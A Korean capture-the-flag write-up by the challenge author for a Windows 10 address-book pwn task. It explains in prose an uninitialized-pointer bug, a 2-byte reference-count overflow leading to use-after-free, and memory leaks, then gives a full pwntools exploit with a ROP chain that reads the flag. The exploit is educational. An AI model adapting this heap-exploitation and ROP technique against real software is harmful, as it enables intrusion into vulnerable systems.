






처음으로 낸 Windows 환경의 문제입니다..! 대회 당일날 시작과 동시에 공개된 문제이나 12시간이 되도록 솔버가 안나와서 solvable한 문제가 아닌가 대회 내내 걱정했던 친구이기도 하죠 ㅠㅠ

idioth형이 대회 중간에 0솔버를 위한 선물이라고 짤을 하나 보내줬는데...


> 즌쯔... 느므 그믑느...^^


그래도 대회 12시간만에 다행히 솔버가 나와서 다행이라고 생각합니다 ㅎㅎ.

# Solution

먼저, 문제 환경부터 보시죠

> Windows 64bit Version 10.0.19041.264 ASLR: True DEP: True SafeSEH: True Stack Cookie: True

64bit 윈도우 10 환경이며, 보호기법은 모두 걸려있네요!

어떤 기능들이 있는지 보겠습니다.




1. Add address Info

   name, address, city를 입력받고 address info를 추가

2. Address Info List

   추가한 address info들을 출력

3. Delete address Info

   address info를 삭제. 이 때 삭제된 info는 Recycle Bin List에 추가

4. Restore address Info

   삭제된 info를 원래 List로 복구

5. Modify address Info

   수정할 address info를 선택해 name, address, city를 수정 가능

6. Empty List

   address list와 recycle bin list 항목을 모두 삭제

7. Exit

7번으로 종료하면



list가 저장되었다고 뜨는데, 옆에 메모리 주소로 보이는 값이 존재합니다.

리스트는 double linked list로 구현되어 있으며 처음에 `Address Book`, `Recycle Bin` 두개의 객체가 할당되어 각각 2byte 정수 type의 reference count (초기값=10)를 가집니다. 함수가 객체를 참조할 때 count가 10 올라가며 해당 함수를 빠져나올때 count가 10 감소하고 10보다 작으면 할당된 객체를 free하고 객체의 주소를 출력합니다.

감이 오시죠. C++의 공유포인터 `std::shared_ptr` 를 커스텀 구현한 문제입니다.

## Vulnerability

`Recycle Bin`의 info를 restore할때 복구하는 노드에서, `Recycle Bin`에서 사용한 next 값이 초기화되지 않고 남아있습니다.


노드를 네 개 생성한 뒤 4, 3을 차례대로 삭제하면 Recycle Bin 리스트에 순서대로 들어갑니다.


Restore 4로 `Address List`로 복구했을때 node 4의 next 가 초기화되지 않고 여전히 `Recycle Bin`의 3을 가리킵니다.


Restore 3을 하면 `Address List`에 index 순서에 맞게 2와 4 사이에 삽입되고 결과적으로 다음과 같이 3과 4의 next가 각각 서로를 가리키게 되어 순환적인 구조를 가진 리스트를 만들 수 있습니다.

`Address List`의 노드들을 출력하는 함수는 노드의 next가 NULL일때까지 혹은 입력한 수만큼 재귀호출을 통해 head 노드부터 출력합니다. 이때 입력한 수를 검증하지 않아 reference counter의  integer overflow가 발생할 수 있습니다.


재귀함수의 인자로 `Address List`의 포인터가 들어가는데, 재귀함수가 한 번 호출될때마다 `Address List`의 reference count가 10씩 증가합니다. 

위와 같이 취약점을 트리거했을 때 정확히 3275만큼 재귀로 참조하면 2byte 정수 조건을 벗어나게 되어 free 조건인 `reference count < 10` 을 만족하게 되고 AddressBook 포인터가 한 번 free됩니다.  

이어 Add Address Info에서 노드를 새로 할당하는 것으로 UAF를 트리거할 수 있어 Address Info에서 `name` 으로 vtable 을 overwrite 해 eip control이 가능합니다.

# Exploit

바이너리에서 `flag.txt`를 open했으니 `read`와 `write`로 flag 내용을 출력하기만 하면 됩니다.

```c
read(3, buffer, sizeof(flag))  // 3 : file descriptor
write(1, buffer, sizeof(flag))
```

ROP에 필요한 건 다음과 같습니다.

`ntdll.dll` base address → gadget

`ucrtbase.dll` base address → `read`, `write`


위 주소들을 구하기 위해서 먼저 바이너리의 imagebase부터 leak해야 합니다.

UAF 이후 leak은 Address Info를 출력할 때 `head` 포인터 값에서부터 참조하는 것을 이용해 Address Info의 `city+16` 에서 `head` 포인터를 overwrite → OOB read가 가능한 점을 이용합니다.


몇번 실행해보면 객체간 offset 에 패턴이 있습니다. offset을 계산해서 city+16 에 Recycle Bin의 주소로 head 를 overwrite하고 2번 메뉴로 출력하면 vtable 주소를 구할 수 있습니다.


`Recycle Bin`의 vtable offset은 0x6960이니 leak한 vtable에 offset만큼 빼면 imagebase가 나오겠군요!

이제 imagebase를 구했으니 dll 주소를 구하는건 쉽습니다!

구하고싶은 dll의 아무 함수나 IAT 테이블에서 offset을 찾고, imagebase+offset 주소에 존재하는 dll 함수 주소를 leak하면 되죠. `ntdll`부터 구해보겠습니다.




`!dh imagebase` 로 IAT offset을 찾고 Import된 dll 함수를 찾아볼게요




`ntdll!RtlInitializeSListHead` 가 imagebase+ 0x6060에 있네요.

`ucrtbase!free` 도 imagebase + 0x61f0 인걸 확인할 수 있습니다.

vtable을 leak했을 때와 같은 방법으로 `head`를 overwrite해 해당 메모리에 있는 값을 출력하고 각각 dll 내 offset을 빼주면 dll base address를 구할 수 있습니다!


## imagebase/dll leak

```python
# 전체 코드는 아래 Exploit Code 참조
# get heap address
p.recvuntil("saved in ")
obj_leak = int(p.recvuntil("\\r\\n"),16)
print(obj_leak)

# allocation after addressbook free
# overwrite addressbook->head to recyclebin, get recyclebin's vtable
# not reliable leak, but address not changed before reboot
context.log_level = "debug"

addAddr("AAAA","AAAA","A"*16 + p64(obj_leak+0x250))
listAddr(1)
p.recvuntil("Name : ")
leak = p.recv(6)
if leak[5] != "\\x7f":
	print("vtable address not leaked")
	exit()

leak = u64(leak+"\\x00\\x00")

imagebase = leak - 0x6960
ntdll_rtlinit = imagebase + 0x6060
ucrtbase_free = imagebase + 0x61f0

# leak ntdll
modifyAddr(-1,3,"A"*16+p64(ntdll_rtlinit))
listAddr(1)
p.recvuntil("Name : ")
ntdll = u64(p.recv(6)+"\\x00\\x00") - 0x6f270

# leak ucrtbase
modifyAddr(-1,3,"A"*16+p64(ucrtbase_free))
listAddr(1)
p.recvuntil("Name : ")
ucrtbase = u64(p.recv(6)+"\\x00\\x00") - 0xe940

print("image base : "+hex(imagebase))
print("ntdll base : "+hex(ntdll))
print("ucrtbase base : "+hex(ucrtbase))
p.recvuntil('>')
```





이제 필요한 주소들도 모두 구했고 eip도 컨트롤할 수 있으니, ROP chain만 구성하면 됩니다.

`mov rsp, [rcx+152]; mov rcx, [rcx+248]; jmp rcx;` 로 rsp를 현재 페이로드가 올라와 있는 주소로 pivot 한뒤 `read`, `write`를 차례로 호출하면 flag를 출력할 수 있습니다!





## Exploit

```python
from pwn import *

def addAddr(name, address, city):
	p.sendline("1")
	print(p.recvuntil(':'))
	p.sendline(name)
	print(p.recvuntil(':'))
	p.sendline(address)
	print(p.recvuntil(':'))
	p.sendline(city)
	print(p.recvuntil('>'))	

def listAddr(idx):
	p.sendline("2")
	print(p.recvuntil('>'))	
	p.sendline(str(idx))

def deleteAddr(idx):
	p.sendline("3")
	print(p.recvuntil(">"))
	p.sendline(str(idx))
	print(p.recvuntil(">"))

def restoreAddr(idx):
	p.sendline("4")
	print(p.recvuntil(">"))
	p.sendline(str(idx))
	print(p.recvuntil(">"))

def modifyAddr(idx, item, new):
	p.sendline("5")
	p.recvuntil(">")
	p.sendline(str(idx))
	p.recvuntil(">")
	p.sendline(str(item))
	p.recvuntil(":")
	p.sendline(new)
	p.recvuntil(">")
	p.sendline("4")
	p.recvuntil(">")
	
	

p = remote("host",55555)
print(p.recv())
p.sendline("L0ch")
print(p.recvuntil(">"))

addAddr("AAAA","AAAA","AAAA")
addAddr("AAAA","AAAA","AAAA")
addAddr("AAAA","AAAA","AAAA")
addAddr("AAAA","AAAA","AAAA")

# node 3->4 , node 4->3
deleteAddr(4)
deleteAddr(3)
restoreAddr(4)
restoreAddr(3)

# reference count ingeter overflow - free addressbook
listAddr(3275)

# get heap address
p.recvuntil("saved in ")
obj_leak = int(p.recvuntil("\\r\\n"),16)
print(obj_leak)

# allocation after addressbook free
# overwrite addressbook->head to recyclebin, get recyclebin's vtable
# not reliable leak, but address not changed before reboot
context.log_level = "debug"

addAddr("AAAA","AAAA","A"*16 + p64(obj_leak+0x250))
listAddr(1)
p.recvuntil("Name : ")
leak = p.recv(6)
if leak[5] != "\\x7f":
	print("vtable address not leaked")
	exit()

leak = u64(leak+"\\x00\\x00")

imagebase = leak - 0x6960
ntdll_rtlinit = imagebase + 0x6060
ucrtbase_free = imagebase + 0x61f0

# leak ntdll
modifyAddr(-1,3,"A"*16+p64(ntdll_rtlinit))
listAddr(1)
p.recvuntil("Name : ")
ntdll = u64(p.recv(6)+"\\x00\\x00") - 0x6f270

modifyAddr(-1,3,"A"*16+p64(ucrtbase_free))
listAddr(1)
p.recvuntil("Name : ")
ucrtbase = u64(p.recv(6)+"\\x00\\x00") - 0xe940

print("image base : "+hex(imagebase))
print("ntdll base : "+hex(ntdll))
print("ucrtbase base : "+hex(ucrtbase))
p.recvuntil('>')

pivot = ntdll + 0xA0E24 # mov rsp, [rcx+152]; mov rcx, [rcx+248]; jmp rcx;
ret = ntdll + 0x144F
add_rsp_28h = ntdll + 0x3EDC
ppr = ntdll + 0x8B8F0 # pop rdx rcx r8 r9 r10 r11 ret

read = ucrtbase + 0x17BC0
write = ucrtbase + 0x174C0 

# pivot
payload = p64(pivot)
payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(ret)
payload += p64(0)
payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)

payload += p64(ppr)
payload += p64(obj_leak+0x240)	# arg 2, buffer 
payload += p64(0x3)	# arg 1, fd
payload += p64(0x30)	# arg 3, size
payload += p64(0)	# dummy
payload += p64(0)	# dummy
payload += p64(0)	# dummy
payload += p64(read)

payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)

# write flag
payload += p64(ppr)
payload += p64(obj_leak+0x240)	
payload += p64(1)
payload += p64(0x30)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(write)

# overwrite vtable

modifyAddr(-1,1,p64(obj_leak+152))

p.sendline("5")
p.recvuntil(">")
p.sendline("-1")
p.recvuntil(">")
p.sendline("1")
p.recvuntil(":")
p.sendline(p64(obj_leak+152))
p.recvuntil(">")

p.sendline("2")
p.recvuntil(":")
p.sendline("A"*136+p64(obj_leak+168)+payload)
p.recvuntil(">")
p.sendline("4")
p.recvuntil(">")

p.sendline("6")
p.recvuntil(">")
p.sendline("1")
print(p.recv())
```